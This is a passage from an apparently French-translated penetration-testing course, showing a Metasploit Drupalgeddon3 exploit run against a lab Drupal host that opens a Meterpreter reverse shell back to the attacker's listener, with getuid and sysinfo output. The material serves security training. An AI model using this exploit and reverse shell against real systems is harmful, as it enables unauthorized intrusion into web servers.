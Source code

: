En cas de succès, nous obtiendrons un reverse shell sur l'hôte cible.

```
exploit msf6 (multi/http/drupal_drupageddon3) > exploit

[*] Démarrage du gestionnaire TCP inversé le 10.10.14.15:4444
[*] Formulaire de jeton -> GH5mC4x2UeKKb2Dp6Mhk4A9082u9BU_sWtEudedxLRM
[*] Jeton Form_build_id -> form-vjqTCj2TvVdfEiPtfbOSEF8jnyB6eEpAPOSHUR2Ebo8
[*] Étape d'envoi (39264 octets) vers 10.129.42.195
[*] Session Meterpreter 1 ouverte (10.10.14.15:4444 -> 10.129.42.195:44612) au 2021-08-24 12:38:07 -0400

meterpreter > getuid

Nom d'utilisateur du serveur : www-data (33)

meterpreter > sysinfo

Ordinateur : app01
OS : Linux app01 5.4.0-81-generic #91-Ubuntu SMP Jeu 15 juillet 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux

```

* * * * *

À partir de
-------

Nous avons énuméré et attaqué certains des CMS les plus répandus : WordPress, Drupal et Joomla. Passons ensuite à Tomcat, qui fait sourire les pentesters depuis des années.